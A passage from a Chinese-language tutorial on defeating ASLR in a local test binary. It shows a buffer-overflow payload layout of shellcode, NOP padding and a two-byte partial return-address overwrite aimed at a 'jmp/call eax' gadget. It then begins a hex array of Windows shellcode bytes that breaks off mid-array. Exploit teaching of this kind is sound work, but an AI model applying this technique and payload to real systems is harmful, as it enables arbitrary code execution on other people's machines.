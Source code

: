 由于我们没有开启 GS，超过 200 字节后将直接覆盖返回地址，现在我们知道返回地址的前两个字节（00FD）将会随机化，但是后面的两个字节是固定的，现在我们只要将我们 ShellCode 地址的后两字节用来覆盖返回地址即可执行 ShellCode：  
str 起始地址：

[![](assets/1710899227-88c93f78a2867674ff5886eb8b7c21f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228170938-199735b2-d619-1.png)

现在我们将 Payload 这样布置：  
| ShellCode | \\x90 填充 | 2 字节覆盖地址 |  
|--|--|--|

现在我们要如何跳转到 ShellCode 开始执行呢？观察寄存器，发现进行内存复制后，eax 指向 str，也就是我们的 ShellCode 地址，我们只需要一个 call eax 或者 jmp eax 就可以执行我们的 ShellCode 了，我们来搜索一下 gadgets：

[![](assets/1710899227-8cf419d8c999c31453229d1538bbd5f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228172611-696e01c2-d61b-1.png)

这里我们只能使用第一个，因为前两个字节是随机的，我们无法控制，这里将返回地址后两个字节覆盖为 23E5 后，正好可以指向这个跳板。

Payload：

```plain
//------------------------------------------------------------
//-----------       Created with 010 Editor        -----------
//------         www.sweetscape.com/010editor/          ------
//
// File    : G:\漏洞原理\ASLR\Debug\111.txt
// Address : 0 (0x0)
// Size    : 206 (0xCE)
//------------------------------------------------------------
unsigned char hexData[206] = {
    0xFC, 0xE8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89,
    0xE5, 0x31, 0xC0, 0x64, 0x8B, 0x50, 0x30, 0x8B,
    0x52, 0x0C, 0x8B, 0x52, 0x14, 0x8B, 0x72, 0x28,
    0x0F, 0xB7, 0x4A, 0x26, 0x31, 0xFF, 0xAC, 0x3C,
    0x61, 0x7C, 0x02, 0x2C, 0x20, 0xC1, 0xCF, 0x0D,
    0x01, 0xC7, 0xE2, 0xF2, 0x52, 0x57, 0x8B, 0x52,
    0x10, 0x8B, 0x4A, 0x3C, 0x8B, 0x4C, 0x11, 0x78,
    0xE3, 0x48, 0x01, 0xD1, 0x51, 0x8B, 0x59, 0x20,
    0x01, 0xD3, 0x8B, 0x49, 0x18, 0xE3, 0x3A, 0x49,
    0x8B, 0x34, 0x8B, 0x01, 0xD6, 0x31, 0xFF, 0xAC,
    0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0x38, 0xE0, 0x75,
    0xF6, 0x03, 0x7D, 0xF8, 0x3B, 0x7D, 0x24, 0x75,
    0xE4, 0x58, 0x8B, 0x58, 0x24, 0x01, 0xD3, 0x66,
    0x8B, 0x0C, 0x4B, 0x8B, 0x58, 0x1C, 0x01, 0xD3,
```